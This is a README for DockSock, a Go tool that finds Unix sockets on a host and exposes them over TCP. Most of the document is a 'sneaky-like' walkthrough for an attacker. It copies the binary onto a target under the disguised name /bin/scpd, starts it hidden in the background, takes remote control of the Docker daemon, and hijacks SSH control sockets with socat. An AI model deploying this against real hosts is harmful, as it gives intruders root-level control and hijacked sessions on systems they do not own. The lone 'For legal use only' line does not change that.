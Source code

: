 DockSock
========

Nifty little TCP -> Unix Socket proxy.  Meant to expose docker/ssh control
sockets to the network.

It periodically searches the entire filesystem for unix sockets and for each
one found spawns a TCP listener which will accept connections and proxy them to
the Unix socket.  The starting (i.e. lowest) port is configurable.

A regex (by default `ssh|docker|tmux|tmp`) is used to filter the sockts
exposed.  The directories `/proc`, `/sys`, and `/dev` are not searched for
sockets.

The list of found an served sockets can be found by making a TCP connection
(e.g. with netcat) to the lowest port, which by default is `61111`.

For legal use only.

Quickstart
----------
```bash
go install github.com/magisterquis/docksock
docksock -v
```

Slightly Less Quickstart, sneaky-like
-------------------------------------
```bash
# Build the tool
go get github.com/magisterquis/docksock
go build -o docksock github.com/magisterquis/docksock

# Put it on target
scp docksock user@target:/bin/scpd
ssh user@target 'nohup /bin/scpd >/dev/null 2>&1 &'

# Give it time to find some sockets
sleep 60

# List the available sockets
nc target 61111

# Connect to something fun
docker -H target:61112 version

# Even deviouser
socat -d -d unix-listen:./s,fork tcp:target:61113 &
ssh -S ./s user@a
```
